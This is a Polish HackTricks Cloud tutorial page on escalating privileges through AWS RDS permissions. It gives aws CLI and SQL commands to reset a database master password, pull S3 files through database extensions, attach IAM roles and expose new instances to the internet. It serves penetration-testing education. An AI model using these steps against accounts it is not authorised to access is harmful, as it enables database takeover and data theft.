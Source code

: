 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relacyjna Usługa Baz Danych

Aby uzyskać więcej informacji o RDS, sprawdź:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Dzięki temu uprawnieniu atakujący może **zmodyfikować hasło użytkownika głównego** oraz logowanie w bazie danych:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Będziesz musiał **skontaktować się z bazą danych** (zwykle są one dostępne tylko z wewnętrznych sieci).
{% endhint %}

**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

### rds-db:connect

Zgodnie z [**dokumentacją**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) użytkownik z tym uprawnieniem mógłby połączyć się z instancją DB.

### Nadużycie uprawnień roli IAM RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Jeśli uruchamiając **`SELECT datname FROM pg_database;`** znajdziesz bazę danych o nazwie **`rdsadmin`**, wiesz, że jesteś w **bazie danych postgresql AWS**.
{% endhint %}

Najpierw możesz sprawdzić, czy ta baza danych była używana do uzyskania dostępu do jakiejkolwiek innej usługi AWS. Możesz to sprawdzić, patrząc na zainstalowane rozszerzenia:
```sql
SELECT * FROM pg_extension;
```
Jeśli znajdziesz coś takiego jak **`aws_s3`**, możesz założyć, że ta baza danych ma **jakiegoś rodzaju dostęp do S3** (są inne rozszerzenia, takie jak **`aws_ml`** i **`aws_lambda`**).

Również, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz zobaczyć, czy **klaster ma przypisaną jakąkolwiek rolę IAM** w polu **`AssociatedRoles`**. Jeśli tak, możesz założyć, że baza danych była **przygotowana do uzyskania dostępu do innych usług AWS**. Na podstawie **nazwa roli** (lub jeśli możesz uzyskać **uprawnienia** roli) możesz **zgadnąć**, jaki dodatkowy dostęp ma baza danych.

Teraz, aby **przeczytać plik w obrębie bucketu**, musisz znać pełną ścieżkę. Możesz to przeczytać za pomocą:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Jeśli miałeś **surowe dane uwierzytelniające AWS**, mógłbyś je również wykorzystać do uzyskania dostępu do danych S3 za pomocą:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **nie musi zmieniać żadnej zmiennej grupy parametrów**, aby uzyskać dostęp do S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wewnątrz mysql, jeśli uruchomisz zapytanie **`SELECT User, Host FROM mysql.user;`** i jest użytkownik o nazwie **`rdsadmin`**, możesz założyć, że jesteś w **AWS RDS mysql db**.
{% endhint %}

Wewnątrz mysql uruchom **`show variables;`** i jeśli zmienne takie jak **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, mają wartości, możesz założyć, że baza danych jest przygotowana do uzyskania dostępu do danych S3.

Ponadto, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz sprawdzić, czy klaster ma jakąkolwiek **powiązaną rolę**, co zazwyczaj oznacza dostęp do usług AWS).

Teraz, aby **przeczytać plik w obrębie bucketu**, musisz znać pełną ścieżkę. Możesz go przeczytać za pomocą:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Napastnik z uprawnieniami `rds:AddRoleToDBCluster` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to umożliwić napastnikowi **dostęp do wrażliwych danych** lub modyfikację danych w obrębie instancji.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.\
Należy zauważyć, że niektóre bazy danych wymagają dodatkowych konfiguracji, takich jak Mysql, który musi określić ARN roli w grupach parametrów.

### `rds:CreateDBInstance`

Tylko z tym uprawnieniem atakujący mógłby utworzyć **nową instancję w istniejącym klastrze**, która już istnieje i ma przypisaną **rolę IAM**. Nie będzie mógł zmienić hasła głównego użytkownika, ale może być w stanie wystawić nową instancję bazy danych do internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Atakujący z uprawnieniami `rds:CreateDBInstance` i `iam:PassRole` może **utworzyć nową instancję RDS z przypisaną określoną rolą**. Atakujący może następnie potencjalnie **uzyskać dostęp do wrażliwych danych** lub zmodyfikować dane w obrębie instancji.

{% hint style="warning" %}
Niektóre wymagania dotyczące roli/profilu instancji do przypisania (z [**tutaj**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil musi istnieć w Twoim koncie.
* Profil musi mieć rolę IAM, którą Amazon EC2 ma uprawnienia do przyjęcia.
* Nazwa profilu instancji i powiązana nazwa roli IAM muszą zaczynać się od prefiksu `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Napastnik z uprawnieniami `rds:AddRoleToDBInstance` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to umożliwić napastnikowi **dostęp do wrażliwych danych** lub modyfikację danych w instancji.

{% hint style="warning" %}
Instancja DB musi być poza klastrem, aby to
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

